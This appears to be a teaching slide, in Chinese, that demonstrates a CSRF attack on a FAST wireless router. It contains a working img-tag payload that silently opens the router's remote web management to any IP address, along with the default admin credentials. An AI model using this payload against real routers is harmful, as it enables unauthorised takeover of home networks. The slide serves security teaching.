

# CSRF攻击-实例2
CSRF攻击代码如下：
<img src=http://192.168.1.1/userRpm/ManageControlRpm.htm?port=80&ip=255.255.255.255&Save=%B1%A3+%B4%E6>
使用GET方式发起的CSRF攻击。
通过社工等手法让被攻击者访问恶意站点的CSRF文件。
FAST无线宽带路由器的WEB管理的默认用户名与密码：admin。